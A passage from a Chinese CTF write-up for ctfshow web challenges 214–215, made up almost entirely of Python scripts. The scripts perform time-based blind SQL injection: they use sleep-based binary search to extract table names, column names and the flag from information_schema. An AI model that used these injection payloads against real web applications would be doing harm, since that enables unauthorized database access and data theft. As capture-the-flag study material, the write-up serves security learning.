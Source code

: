 ```python
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆列
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值
        payload = {
            'ip': f"1 or if(ascii(substr((select group_concat(flaga) from ctfshow_flagx),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```

## web 215

给`/api/`接口发请求`ip=1&debug=1`，返回了sql语句`select id from ctfshow_info where ip = '1';`，把ip的值放在了单引号里，直接闭合单引号，稍加修改上题的脚本接着打

```python
import requests
import time
url = 'http://46aefd94-5b7e-4d82-ae3d-3210a5d35606.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名 ctfshow_flagxc
        # payload = {
        #     'ip': f"1' or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆列 flagaa
        # payload = {
        #     'ip': f"1' or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值 
        payload = {
            'ip': f"1' or if(ascii(substr((select group_concat(flagaa) from ctfshow_flagxc),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
```